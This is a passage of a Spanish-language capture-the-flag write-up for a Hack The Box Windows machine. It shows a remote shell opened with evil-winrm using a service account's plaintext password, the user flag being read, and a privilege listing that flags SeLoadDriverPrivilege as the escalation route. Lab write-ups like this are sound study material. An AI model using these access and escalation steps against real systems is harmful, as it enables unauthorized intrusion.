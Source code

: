 - Ahora nos conectamos y estamos en la maquina victima.

```bash
❯ evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::e8
   IPv6 Address. . . . . . . . . . . : dead:beef::f08b:84bd:2540:f169
   Link-local IPv6 Address . . . . . : fe80::f08b:84bd:2540:f169%10
   IPv4 Address. . . . . . . . . . . : 10.129.95.241
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:7437%10
                                       10.129.0.1
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

## User flag

- Ahora buscamos la **flag** y podemos verla.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type C:\Users\svc-printer\Desktop\user.txt
43223ad01387c3d15f47aed81648bfaa
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

## Escalada de privilegios

- Vemos que tenemos varios privilegios entre ellos uno interesante es este `SeLoadDriverPrivilege`.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
```